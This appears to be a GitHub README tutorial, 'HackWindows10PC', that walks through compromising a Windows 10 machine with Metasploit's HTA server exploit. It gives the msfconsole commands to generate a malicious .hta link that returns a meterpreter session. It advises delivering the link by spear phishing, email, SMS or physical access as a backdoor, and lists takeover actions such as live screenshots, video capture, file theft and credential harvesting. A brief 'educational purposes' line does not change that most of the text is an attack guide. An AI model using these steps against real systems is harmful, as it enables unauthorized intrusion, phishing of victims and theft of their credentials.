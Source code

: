 # HackWindows10PC
Hey Folks, in this repo we are going to demonstrate a method through which we can remotely access any windows machine by sending a link. Originally we would use the HTA attack feature provided by the metasploit tool, by which we could broadcast our payload via a direct link and we would have a meterpreter session when the victim would double click on that payload. If you want to know about HTA attack, you can read from below.

What is HTA Attack ?
The HTA Attack method will allow us to clone a site and perform powershell injection through HTA files which can be used for Windows-based powershell exploitation through the browser. It is a simple HTML application that can provide full access to the remote attacker. The usual file extension of an HTA is (.hta).

Let’s take a look 😛 !!

In this tutorial I’ll show you how to hack Windows 10 with Metasploit Framework. Kali Linux already comes with Metasploit, so no need to install.
By the end of this tutorial you should be able to gain basically full access to the victim machine (non persistence).

-------------------------------------------------------------------------------------------------------
Requirements
Kali Linux with internet access
Windows 10 x64 with internet access
Both machines should be bridged to this work. This tutorial is for educational purposes and is local.
In this tutorial we will not cover Shellter to make the .exe FUD (Fully Undetectable).

-------------------------------------------------------------------------------------------------------
Step 1: Create the attack
-Sudo msfconsole "open metasploit"
-msf6 > use exploit/windows/misc/hta_server "using windows exploit"
-ifconfig "To find the local IP
-set LHOST IP "Give your local IP"
-set LPORT 22 "Any open port"
-exploit "Run the exploit"

Step 2: Attacking the windows PS
-copy paste the .hta link 
-do a small reconn study on the target and share the clicking options that can be used by target mostly email or sms
-Efficient methoda is to a spear phishing attacking or phisical access and install this as back door
-once the target opens the link it'll download a file if he runs the exploit is activated
-sessions "to find the active session"

Step3: What you can do on target pc
-type help in meterpreter you can see all the attack opention
-screenshot is the command used for taking screenshot on live 
-You can do live video, send file, download the file, play a audio on target pc, harvest  the credentials you got limit less controll over the target
	

